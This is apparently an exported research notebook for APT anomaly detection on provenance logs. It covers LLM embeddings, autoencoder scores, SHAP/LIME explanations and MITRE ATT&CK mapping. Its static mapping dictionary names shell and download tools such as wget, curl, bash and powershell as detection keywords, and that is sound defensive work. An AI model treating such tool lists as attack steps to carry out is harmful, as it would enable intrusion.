    -> LSTMAE Done! F1: 0.0833 | PR-AUC: 0.0179
    -> Robust Done! F1: 0.0833 | PR-AUC: 0.0197
    -> Contractive Done! F1: 0.0207 | PR-AUC: 0.0071

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0465 | PR-AUC: 0.0207
    -> Sparse Done! F1: 0.0308 | PR-AUC: 0.0079
    -> Deep SVDD Done! F1: 0.0524 | PR-AUC: 0.0183
    -> DAE Done! F1: 0.1176 | PR-AUC: 0.0206
    -> VAE Done! F1: 0.0152 | PR-AUC: 0.0061
    -> Beta-VAE Done! F1: 0.0136 | PR-AUC: 0.

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0
    -> DAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.449 | PR-AUC: 0.3602
    -> Sparse Done! F1: 0.0184 | PR-AUC: 0.0061
    -> Deep SVDD Done! F1: 0.0855 | PR-AUC: 0.0128
    -> DAE Done! F1: 0.097 | PR-AUC: 0.029
    -> VAE Done! F1: 0.0153 | PR-AUC: 0.0056
    -> Beta-VAE Done! F1: 0.0185 | PR-AUC: 0.0066
    -> GMVAE Done! F1: 0.0184 | PR-AUC: 0.0061
    -> Attention AE Done! F1: 0.0205 | PR-AUC: 0.0066
    -> LSTMAE Done! F1: 0.4198 | PR-AUC: 0.2931
    -> Robust Done! F1: 0.3774 | PR-AUC: 0.2422
    -> Contractive Done! F1: 0.0201 | PR-AUC: 0.0068

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.0658 | PR-AUC: 0.0079
    -> Sparse Done! F1: 0.0087 | PR-AUC: 0.002
    -> Deep SVDD Done! F1: 0.0037 | PR-AUC: 0.0018
    -> DAE Done! F1: 0.026 | PR-AUC: 0.0031
    -> VAE Done! F1: 0.0064 | PR-AUC: 0.0016
    -> Beta-VAE Done! F1: 0.00

#### XAI integration and MITRE ATT&CK MAPPING

In [5]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel, BitsAndBytesConfig
import transformers.modeling_utils
import transformers.cache_utils as cache_utils
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 0. TRANSFORMERS 5.0+ SURVIVAL HOTFIXES
# ==========================================
# 1. Intercept the illegal 4-bit .to() call
if not hasattr(transformers.modeling_utils.PreTrainedModel, "_patched_to_applied"):
    _orig_to = transformers.modeling_utils.PreTrainedModel.to
    def _patched_to(self, *args, **kwargs):
        try:
            return _orig_to(self, *args, **kwargs)
        except ValueError as e:
            if "is not supported for `4-bit`" in str(e):
                return self 
            raise e
    transformers.modeling_utils.PreTrainedModel.to = _patched_to
    transformers.modeling_utils.PreTrainedModel._patched_to_applied = True

# 2. Patch missing Mistral cache methods
if hasattr(cache_utils, "DynamicCache"):
    if not hasattr(cache_utils.DynamicCache, "from_legacy_cache"):
        @classmethod
        def from_legacy_cache(cls, past_key_values=None):
            cache = cls()
            if past_key_values is not None:
                for layer_idx, (key_states, value_states) in enumerate(past_key_values):
                    cache.update(key_states, value_states, layer_idx)
            return cache
        cache_utils.DynamicCache.from_legacy_cache = from_legacy_cache

    if not hasattr(cache_utils.DynamicCache, "get_usable_length"):
        def get_usable_length(self, new_seq_length, layer_idx=0):
            return self.get_seq_length(layer_idx) if hasattr(self, "get_seq_length") else 0
        cache_utils.DynamicCache.get_usable_length = get_usable_length

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [LINQ-MISTRAL UPDATE] - Corrected the Hugging Face Organization Name!
EMBEDDER_NAME = "Linq-AI-Research/Linq-Embed-Mistral" 
INPUT_DIM = 4096  # CRITICAL: Mistral-7B uses massive 4096-dimensional vectors!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} on {self.device.upper()}...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        
        # [CRITICAL LLM FIX]: Decoder models MUST use left padding for last-token extraction
        self.tokenizer.padding_side = 'left'
        if self.tokenizer.pad_token is None:
            self.tokenizer.pad_token = self.tokenizer.eos_token 

        # Forces the 7B model to 4.5GB VRAM footprint
        bnb_config = BitsAndBytesConfig(
            load_in_4bit=True,
            bnb_4bit_compute_dtype=torch.float16,
            bnb_4bit_use_double_quant=True
        )

        self.embedder = AutoModel.from_pretrained(
            embedder_name, 
            trust_remote_code=True,
            quantization_config=bnb_config,
            device_map={"": self.device} 
        )
        
        # [THE SURGICAL CPU-TO-GPU FIX]
        # Hunt down the 'rotary_emb' math components that Hugging Face
        # leaves stranded on the CPU, and force them to the GPU.
        for module in self.embedder.modules():
            if hasattr(module, 'rotary_emb'):
                module.rotary_emb.to(self.device)
            if hasattr(module, 'inv_freq'):
                module.inv_freq = module.inv_freq.to(self.device)
                
        # Catch any other stranded parameters/buffers
        for param in self.embedder.parameters():
            if param.device.type == 'cpu':
                param.data = param.data.to(self.device)
        for buffer in self.embedder.buffers():
            if buffer.device.type == 'cpu':
                buffer.data = buffer.data.to(self.device)
                
        self.embedder.eval()
        
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        # Clean inputs
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        # [LINQ-MISTRAL FORMATTING]: Appending EOS token guarantees the last token holds the sentence representation
        formatted_texts = [f"{text}{self.tokenizer.eos_token}" for text in text_list]

        # Strict micro-batching for 7B parameters
        batch_size = 2 
        all_errors = []
        
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(formatted_texts), batch_size):
            batch_texts = formatted_texts[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            # Prevent token_type_ids indexing errors just in case
            if "token_type_ids" in inputs:
                del inputs["token_type_ids"]

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # [LINQ-MISTRAL POOLING]: Extract the last token
                    embeddings = outputs.last_hidden_state[:, -1, :] 
                    
                    # Normalize embeddings (Standard practice for Mistral embeddings)
                    embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                    
                    # Cast back to fp32 to match the AE weights
                    embeddings = embeddings.to(torch.float32)
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
# Ensure this folder name matches your Linq-Mistral training output!
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_linq_mistral", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    ae_model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    print(f"✓ Loaded weights: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights: saved_weights_linq_mistral\theia_ProcessAll_Baseline.pth
Loading Linq-AI-Research/Linq-Embed-Mistral on CUDA...


'(ReadTimeoutError("HTTPSConnectionPool(host='huggingface.co', port=443): Read timed out. (read timeout=10)"), '(Request ID: f3cf12c4-9ede-42f0-ad5f-68ee9989ac4e)')' thrown while requesting HEAD https://huggingface.co/Linq-AI-Research/Linq-Embed-Mistral/resolve/main/tokenizer_config.json
Retrying in 1s [Retry 1/5].
Loading checkpoint shards: 100%|██████████| 3/3 [00:17<00:00,  5.91s/it]



Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'event' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'process' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'home' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'clone' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
 -> 'executable' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter / E


SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> 'has' (Anomaly Impact: -0.0000)
    [i] No MITRE mapping found.
 -> 'event' (Anomaly Impact: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'clone' (Anomaly Impact: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
 -> 'process' (Anomaly Impact: -0.0000)
    [i] No MITRE mapping found.


### 6. `McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp`

#### Embedding generation

In [ ]:
pip install llm2vec

In [ ]:
import pandas as pd
import numpy as np
import torch
import pickle
import os
from transformers import AutoTokenizer, AutoModel, AutoConfig, PreTrainedModel, BitsAndBytesConfig
from peft import PeftModel

# [CRITICAL] Install this library first: 
# pip install llm2vec
from llm2vec import LLM2Vec

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp'

# 4-bit quantization shrinks the model to ~5GB.
# A batch size of 8 is highly efficient and safe for 16GB VRAM.
BATCH_SIZE = 8

# [SPEED FIX] Dropped from 2048 to 512. 
# This instantly doubles processing speed while retaining plenty 
# of context for critical log event data.
MAX_SEQ_LENGTH = 512

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

# Monkey patch for legacy transformer version compatibility
if not hasattr(PreTrainedModel, "all_tied_weights_keys"):
    PreTrainedModel.all_tied_weights_keys = property(lambda self: [])

print(f"Loading model: {MODEL_NAME} (4-Bit Quantized + Flash Attention)...")

# 1. Load Tokenizer
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME)

# [SAFETY FIX] Llama-3 tokenizers lack a default pad token. 
# This prevents the script from crashing during the batching phase.
if tokenizer.pad_token is None:
    tokenizer.pad_token = tokenizer.eos_token

# 2. Setup 4-bit Quantization Configuration
quant_config = BitsAndBytesConfig(
    load_in_4bit=True,
    bnb_4bit_compute_dtype=torch.float16, 
    bnb_4bit_use_double_quant=True,       
    bnb_4bit_quant_type="nf4"             
)

# 3. Load Configuration & Base Model with Flash Attention 2
config = AutoConfig.from_pretrained(MODEL_NAME, trust_remote_code=True)
model = AutoModel.from_pretrained(
    MODEL_NAME,
    trust_remote_code=True,
    config=config,
    quantization_config=quant_config,
    device_map=device,
    attn_implementation="flash_attention_2" # [SPEED FIX] Hardware acceleration
)

# 4. Initialize LLM2Vec Wrapper
# Pass the MAX_SEQ_LENGTH here so LLM2Vec knows to truncate internally
l2v = LLM2Vec(model, tokenizer, pooling_mode="mean", max_length=MAX_SEQ_LENGTH)

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: WRAPPER FUNCTION
# ==========================================
def get_llm2vec_embeddings(text_list, l2v_model, batch_size=1):
    """
    Wraps the LLM2Vec encode method.
    """
    with torch.no_grad():
        # LLM2Vec handles batching internally if we pass a list.
        # convert_to_tensor=True keeps it on GPU so we can normalize before offloading
        embeddings = l2v_model.encode(text_list, batch_size=batch_size, convert_to_tensor=True)
        
        # Normalize manually just in case
        embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
        
        # Move to CPU immediately to free up GPU memory
        return embeddings.cpu().numpy()

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            # [SPEED FIX] Smart Batching: Sort sentences by length to eliminate padding math
            df['seq_len'] = df['sentence'].astype(str).apply(len)
            df = df.sort_values('seq_len').reset_index(drop=True)
            
            sentences = df['sentence'].tolist()
            all_embeddings = []
            
            # Manual batching loop to control VRAM precisely
            total = len(sentences)
            for i in range(0, total, BATCH_SIZE):
                batch_texts = sentences[i : i + BATCH_SIZE]
                
                # Encode
                batch_embs = get_llm2vec_embeddings(batch_texts, l2v, batch_size=len(batch_texts))
                all_embeddings.extend(batch_embs)
                
                print(f"    Processed {min(i + BATCH_SIZE, total)}/{total}...", end="\r")

            if len(all_embeddings) != len(df):
                print(f"  [!] Mismatch: {len(all_embeddings)} vs {len(df)}")
                continue

            # Drop the temporary length column and append embeddings
            df = df.drop(columns=['seq_len'])
            df['embedding'] = list(all_embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            
        finally:
            # [CRITICAL OOM FIX] Force flush the VRAM after every chunk
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_llm2vec_llama3"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save LLM2Vec-Llama3 chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_llm2vec_llama3.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All LLM2Vec data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

#### Train test split

In [7]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your LLM2Vec-Llama3 generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_llama3_manual_final" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_llm2vec_llama3"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing Llama3 suffixes
    key_name = filename.replace(".pkl", "").replace("_llm2vec_llama3", "").replace("_llama3_manual_final", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
    print("If you saved them in 'processed_embeddings_llama3_manual_final', change SOURCE_FOLDER to match.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR LLM2VEC-LLAMA-3!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_llm2vec_llama3
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_llama3_manual.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 4096), Test: (2238, 4096)
  ✓ Saved to: final_train_test_split_llm2vec_llama3\5dir\train\ProcessAll_llama3_manual.pkl and final_train_test_split_llm2vec_llama3\5dir\test\ProcessAll_llama3_manual.pkl

Processing: 5dir_ProcessEvent_llama3_manual.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 4096), Test: (2238, 4096)
  ✓ Saved to: final_train_test_split_llm2vec_llama3\5dir\train\ProcessEvent_llama3_manual.pkl and final_train_test_split_llm2vec_llama3\5dir\test\ProcessEvent_llama3_manual.pkl

Processing: 5dir_ProcessExec_llama3_manual.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. 

#### Training AEs and saving `.pth` files

